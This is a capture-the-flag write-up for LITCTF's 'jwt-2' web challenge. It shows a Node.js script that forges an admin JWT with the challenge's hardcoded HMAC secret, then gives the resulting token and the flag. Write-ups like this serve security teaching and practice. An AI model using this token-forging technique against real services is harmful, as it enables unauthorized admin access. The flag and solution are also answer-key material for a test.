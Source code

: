 ```yaml
---
title: jwt-2
date: 2023-12-10T13:37:49+02:00
author: zacian
tags:
  - Web
draft: false
---
```


## Description

its like jwt-1 but this one is harder URL: http://litctf.org:31777/

Author : halp

## Solution

The challenge provide us with a typescript file. 

The challenge seems have the same site as [jwt-1](./jwt-1.md) but the jwt signing and checking process is different and using the old techniue of changing the value won't work straight.

What we can do is, use the same process or logic from the given script to sign our own JWT 

Since, a JWT mainly contains three parts that being the Header, Payload and Signaturel, we can extract those specific part of logic from the main script and put in our own script.

```js
const crypto = require('crypto');
const jwtSecret = "xook";

const jwtHeader = Buffer.from(
    JSON.stringify({ alg: "HS256", typ: "JWT" }),
    "utf-8"
).toString("base64").replace(/=/g, "");

payload = { name: 'username', admin: true }; // changed admin value from flase to true

const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8").toString("base64").replace(/=/g, "");
const signature  = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');

console.log(jwtHeader + "." + jwtPayload + "." + signature);
```

This would create a JWT token when we run the code `node script.js`

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidXNlcm5hbWUiLCJhZG1pbiI6dHJ1ZX0.bc2aVoMm2M4q/twCx9BCiOABaQU0TKegvLkGolRcbHE
```

Now changing or providing the cookie/token value would give us the flag 

```
Flag : LITCTF{v3rifyed_thI3_Tlme_1re4DV9}
```
